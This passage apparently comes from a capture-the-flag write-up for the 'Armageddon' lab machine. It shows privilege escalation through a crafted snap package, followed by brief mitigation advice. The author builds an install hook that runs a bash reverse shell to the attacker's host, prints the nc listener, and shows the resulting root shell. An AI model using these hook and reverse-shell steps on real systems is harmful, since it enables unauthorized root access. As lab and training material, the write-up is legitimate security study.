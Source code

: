 ```bash
$ COMMAND="bash -c 'bash -i >& /dev/tcp/10.10.14.143/4444 0>&1'"

$ mkdir -p snap/meta/hooks

$ cd snap

$ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install

$ chmod +x meta/hooks/install

$ fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}

$ scp xxxx_1.0_all.snap brucetherealadmin@target:~/
brucetherealadmin@target's password: 

$ nc -klvnp 4444
listening on [any] 4444 ...
```

Then, I went on the server and installed the snap I just created.

```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
Run install hook of "xxxx" snap if present
```

I got a hit on my reverse shell. 

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.143] from (UNKNOWN) [10.129.48.89] 58464
bash: cannot set terminal process group (4594): Inappropriate ioctl for device
bash: no job control in this shell

bash-4.3# whoami
whoami
root

bash-4.3# cat /root/root.txt
cat /root/root.txt
REDACTED
```

## Mitigation

To make this box safer, you need to make sure it is kept up to date. The Drupalgeddon vulnerabilities are easy to find and exploit. Keeping Drupal up to date would have prevented that issue.

As for the snap exploit, do not give normal users permission to install random packages on a server.